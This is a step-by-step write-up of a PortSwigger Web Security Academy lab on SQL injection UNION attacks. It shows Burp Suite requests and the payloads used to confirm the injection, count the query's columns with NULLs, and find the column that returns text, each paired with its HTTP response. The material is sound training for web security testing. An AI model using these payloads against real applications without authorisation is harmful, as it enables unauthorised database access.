




# Lab: SQL injection UNION attack, finding a column containing text

## Lab Description
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the response, enabling a `UNION` attack. The goal is to determine the number of columns, identify which column is compatible with string data, and make the application retrieve a specific random string provided by the lab.

---

## Step 1 — Intercept the Base Request
Navigate to the application, click on a category filter (e.g., `Gifts`), capture the request in Burp Suite, and send it to Repeater.

### Example Base Request
GET /filter?category=Gifts HTTP/2
Host: 0a7f008203cdb59583ffa6c200f5005f.web-security-academy.net 

---

## Step 2 — Verify SQL Injection & Comment Format
To confirm the presence of the SQL injection vulnerability, a single quote (`'`) was appended to disrupt the query, resulting in a database error. Then, the database-generic comment indicator (`--`) was used to neutralize the rest of the query.

### Results
* `Gifts'` -> **500 Internal Server Error** (Confirms dynamic execution of input).
* `Gifts'--` -> **200 OK** (Confirms the syntax can be repaired using standard comments).

### Screenshots

---

## Step 3 — Determine Column Count via NULL Values
By systematically appending `NULL` values to the injected `UNION SELECT` statement, the exact number of columns returned by the original query was determined.

### Results
* `Gifts'+UNION+SELECT+NULL--` -> **500 Internal Server Error**
* `Gifts'+UNION+SELECT+NULL,NULL--` -> **500 Internal Server Error**
* `Gifts'+UNION+SELECT+NULL,NULL,NULL--` -> **200 OK** (Confirms the query returns exactly **3 columns**).

### Screenshots

---

## Step 4 — Find Column Containing Text
Using the discovered column count (3), a systematic test was performed by placing the target string `'8EipVr'` into each column position one by one, while keeping the other columns as `NULL`.

### Test Payloads & Results
1. `Gifts'+UNION+SELECT+'8EipVr',NULL,NULL--` -> **500 Internal Server Error** (Column 1 does not support text/string data type)
2. `Gifts'+UNION+SELECT+NULL,'8EipVr',NULL--` -> **200 OK** (Successful execution! Column 2 accepts and displays text/string data)
3. `Gifts'+UNION+SELECT+NULL,NULL,'8EipVr'--` -> *(Not required as Column 2 was successfully identified)*

### Result Analysis
The target database query returns 3 columns, and the **2nd column** is compatible with string data, allowing us to output arbitrary text in the application's response.

### Screenshots

---

## Step 5 — Verification (Lab Solved)
The application accepted the payload, retrieved the requested string, and successfully marked the lab as solved.

### Screenshots
